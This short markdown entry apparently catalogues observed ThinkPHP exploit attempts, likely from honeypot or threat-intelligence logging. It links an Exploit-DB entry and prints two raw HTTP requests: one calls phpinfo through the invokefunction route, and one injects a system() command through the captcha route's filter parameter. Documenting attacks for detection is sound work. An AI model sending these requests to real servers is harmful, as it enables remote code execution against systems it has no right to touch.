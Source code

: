 # ThinkPHP Exploit Attempts

# Link
https://www.exploit-db.com/exploits/46150

# Protocols:
HTTP

# Ports:
80

# Sample:

```
GET /index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1 HTTP/1.1
Host: 209.97.144.74
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.0;en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6)
Connection: close
Accept-Encoding: gzip


POST /index.php?s=captcha HTTP/1.1
Host: 209.97.144.74
User-Agent: Go-http-client/1.1
Content-Length: 84
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=uname&ipconfig
```
